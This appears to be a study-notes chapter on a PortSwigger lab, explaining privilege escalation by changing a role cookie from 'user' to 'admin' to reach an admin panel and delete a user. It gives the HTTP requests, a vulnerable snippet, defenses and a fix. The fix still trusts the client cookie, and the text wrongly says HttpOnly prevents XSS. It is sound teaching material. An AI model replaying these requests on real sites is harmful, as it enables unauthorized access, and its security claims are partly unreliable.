

## Introduction to Access Control Vulnerabilities

Access control vulnerabilities occur when a web application fails to properly restrict access to certain resources or functionalities based on the user's privileges. These vulnerabilities can lead to unauthorized access, data breaches, and other serious security issues. In this chapter, we will delve deep into a specific type of access control vulnerability where the user role is controlled by a request parameter, often a cookie.

### Background Theory

Access control is a fundamental aspect of web application security. It ensures that users can only access resources and perform actions that they are authorized to do. Typically, access control mechanisms involve:

- **Authentication**: Verifying the identity of a user.
- **Authorization**: Determining what actions a user is allowed to perform based on their authenticated identity.

In a typical web application, authentication is often handled via cookies, tokens, or session IDs. Once a user is authenticated, the application determines their role (e.g., admin, user) and grants access to resources accordingly.

### User Role Controlled by Request Parameter

In this scenario, the user role is determined by a request parameter, such as a cookie. This means that if an attacker can manipulate this parameter, they can potentially gain elevated privileges. Let's break down the components involved:

#### Components Involved

1. **Cookie**: A small piece of data sent from a website and stored on the user's computer by the user's web browser while the user is browsing. The cookie can then be read by the website when the user revisits.
2. **User Role**: The level of access and permissions granted to a user within the application. Common roles include `admin`, `user`, `guest`, etc.
3. **Request Parameter**: Data sent from the client to the server as part of an HTTP request. In this case, the user role is embedded in a cookie.

### Real-World Example: CVE-2021-3116

CVE-2021-3116 is a real-world example where a similar vulnerability was exploited. In this case, a web application used a cookie to determine the user role. An attacker could modify the cookie to elevate their privileges, leading to unauthorized access to sensitive data and functionalities.

#### How the Exploit Worked

1. **Initial Authentication**: The user logs in and receives a cookie containing their role information.
2. **Manipulation**: The attacker modifies the cookie to change the role from `user` to `admin`.
3. **Privilege Escalation**: The server reads the modified cookie and grants the attacker administrative privileges.

### Detailed Explanation of the Lab Scenario

Let's walk through the lab scenario described in the transcript:

1. **Lab Setup**:
    - The lab is hosted on the Web Security Academy.
    - The target is to access the admin panel and delete the user `Carlos`.

2. **Access Control Mechanism**:
    - The application uses a cookie to identify the user role.
    - The cookie is set during login and contains the user role information.

3. **Exploitation Steps**:
    - Log in as a regular user using the provided credentials.
    - Identify the cookie that contains the user role information.
    - Modify the cookie to change the role from `user` to `admin`.
    - Access the admin panel and delete the user `Carlos`.

### Step-by-Step Mechanics

#### Logging In as a Regular User

First, we need to log in as a regular user. Here’s how the process looks:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=regular_user&password=regular_password
```

Upon successful login, the server responds with a cookie:

```http
HTTP/1.1 200 OK
Set-Cookie: role=user; Path=/; HttpOnly
```

#### Identifying the Cookie

The cookie `role=user` is set upon login. We need to identify this cookie and understand its structure.

#### Modifying the Cookie

To exploit the vulnerability, we need to modify the cookie to change the role from `user` to `admin`. This can be done using tools like Burp Suite or manually in the browser developer tools.

```http
GET /admin HTTP/1.1
Host: example.com
Cookie: role=admin
```

#### Accessing the Admin Panel

With the modified cookie, we can now access the admin panel:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome, Admin!</h1>
    <form action="/delete_user" method="post">
        <input type="text" name="username" value="Carlos">
        <button type="submit">Delete User</button>
    </form>
</body>
</html>
```

#### Deleting the User `Carlos`

Finally, we can delete the user `Carlos` by submitting the form:

```http
POST /delete_user HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=Carlos
```

### Mermaid Diagrams

#### Access Control Flow



### Pitfalls and Common Mistakes

1. **Hardcoding Roles**: Hardcoding roles in the application logic can lead to vulnerabilities if the roles are not properly validated.
2. **Insecure Cookies**: Using insecure cookies (without `HttpOnly` flag) can expose the application to cross-site scripting (XSS) attacks.
3. **Insufficient Validation**: Failing to validate the user role on the server-side can lead to privilege escalation.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual access patterns.
2. **Security Scanning**: Use automated tools to scan for access control vulnerabilities.

#### Prevention

1. **Server-Side Validation**: Always validate the user role on the server-side.
2. **Secure Cookies**: Use secure cookies with the `HttpOnly` flag to prevent XSS attacks.
3. **Role-Based Access Control (RBAC)**: Implement RBAC to ensure that users can only access resources based on their roles.

#### Secure Coding Fixes

##### Vulnerable Code

```python
# Vulnerable code
def check_role(request):
    role = request.cookies.get('role')
    if role == 'admin':
        return True
    return False
```

##### Secure Code

```python
# Secure code
def check_role(request):
    role = request.cookies.get('role')
    if role == 'admin' and verify_admin_session(request.session_id):
        return True
    return False

def verify_admin_session(session_id):
    # Verify the session ID against the database to ensure the user is an admin
    return session_id in admin_sessions
```

### Complete Example

#### Full HTTP Request and Response

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=regular_user&password=regular_password

HTTP/1.1 200 OK
Set-Cookie: role=user; Path=/; HttpOnly

GET /admin HTTP/1.1
Host: example.com
Cookie: role=admin

HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome, Admin!</h1>
    <form action="/delete_user" method="post">
        <input type="text" name="username" value="Carlos">
        <button type="submit">Delete User</button>
    </form>
</body>
</html>

POST /delete_user HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=Carlos

HTTP/1.1 200 OK
Content-Type: text/plain

User Carlos deleted successfully.
```

### Hands-On Labs

For practical experience, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities.

These labs provide a safe environment to practice and understand the concepts discussed in this chapter.

### Conclusion

Access control vulnerabilities, particularly those involving user roles controlled by request parameters, can lead to severe security issues. By understanding the underlying mechanisms and implementing proper security measures, you can protect your applications from such vulnerabilities. Always validate user roles on the server-side, use secure cookies, and implement robust access control mechanisms to ensure the security of your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/00-Overview|Overview]] | [[02-Access Control Vulnerabilities User Role Controlled by Request Parameter|Access Control Vulnerabilities User Role Controlled by Request Parameter]]
